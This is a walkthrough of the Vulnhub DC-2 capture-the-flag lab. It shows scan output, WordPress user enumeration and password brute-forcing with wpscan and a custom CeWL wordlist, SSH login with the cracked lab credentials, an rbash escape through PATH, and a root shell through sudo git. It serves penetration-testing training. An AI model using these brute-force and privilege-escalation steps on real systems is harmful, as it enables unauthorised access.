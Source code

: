 ```yaml
---
"title": "Vulnhub - DC 2"
"date": 2019-11-15
"tags": ["wordpress", "easy", "sudo", "rbash"]
"keywords": ["wordpress", "easy", "sudo", "rbash"]
"categories": ["Vulnhub"]
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 2 by DCAU7 from Vulnhub"
"featured_image": "/img/dc2/1.1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : [https://www.vulnhub.com/entry/dc-2,311/](https://www.vulnhub.com/entry/dc-2,311/)

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![Untitled](/img/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![Untitled](/img/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![Untitled](/img/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![Untitled](/img/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![Untitled](/img/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![Untitled](/img/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![Untitled](/img/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![Untitled](/img/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``[br/](br/) 
![Untitled](/img/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![Untitled](/img/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![Untitled](/img/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![Untitled](/img/dc2/11.png)
.[br/](br/)
.[br/](br/)
.[br/](br/)
![Untitled](/img/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 